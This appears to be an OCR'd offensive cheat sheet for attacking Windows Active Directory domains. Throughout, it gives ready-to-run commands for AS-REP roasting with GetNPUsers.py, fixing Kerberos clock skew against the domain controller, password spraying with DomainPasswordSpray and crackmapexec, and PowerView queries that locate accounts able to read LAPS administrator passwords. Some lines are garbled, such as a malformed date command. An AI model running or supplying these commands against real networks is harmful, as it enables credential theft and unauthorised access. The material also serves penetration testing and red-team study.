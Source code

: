 python3 GetNPUsers.py steins.local/user:"password!" -dc-ip 10.10.10.10 -request 

Updating Time to Match DC - KRB_AP_ERR_SKEW(Clock skew too great)

#Display the time of the server 
proxychains net time -S 10.10.10.10

or 

#Get DC time from curl response headers 
proxychains curl DC_IP:5985 -v 

sudo date -s "Thu Dec 24 10.10.10.10"


or 

sudo apt-get install ntpdate
sudo ntpdate <MACHINE IP>
sudo apt-get install chrony
sudo timedatectl set-ntp true
sudo ntpdate <machine IP>

Password Spraying 
Import-Module PowerView.ps1

#list all domain users and save them to a text file 
PowerShell Get-DomainUser | select samaccountname

Import-Module DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -UserList users.txt -Password 'P@$$W0rd!' -OutFile sprayed-creds.txt

or 

proxychains crackmapexec  smb 10.10.10.10 -d steins.local -u users.txt -p 'p@$$w0rd1' --continue-on-success

LAPS Delgation

#Find Users/groups that have red access to LAPS Password for a specific computer
Get-NetComputer -ComputerName 'computer_name ' FullData |
	Select-Object -ExpandProperty distinguishedname |
	ForEach-Object { $_.substring($_.indexof('OU')) } | ForEach Object {
	Get-ObjectAcl -ResolveGUIDs DistinguishedName $_} | Where-Object {
	($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | 
	ForEach-Object { Convert-NameToSid $_.IdentityReference} | Select-Object -ExpandProperty SID | Get-ADObject


#Find ACLs for all OUs where someone is allowed to read the LAPS password

Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs |Where-Object {($_.ObjectType -like 'ms-Mcs-AdmPwd') -and
	($_.ActiveDirectoryRights -match 'ReadProperty') } | ForEach-Object {$_ | Add-Member NoteProperty 'IdentitySID' $(Convert-NameToSid $_.IdentityReference).SID;
	$_ }

#Find the list of users who has access to the groups 
$LAPSAdmins = Get-ADGroup ‘<GROUP1>’ | Get-ADGroupMember -Recursive
$LAPSAdmins += Get-ADGroup ‘<GROUP1>’ | Get-ADGroupMember -Recursive
$LAPSAdmins | Select Name,distinguishedName | sort name -unique | format-table -auto

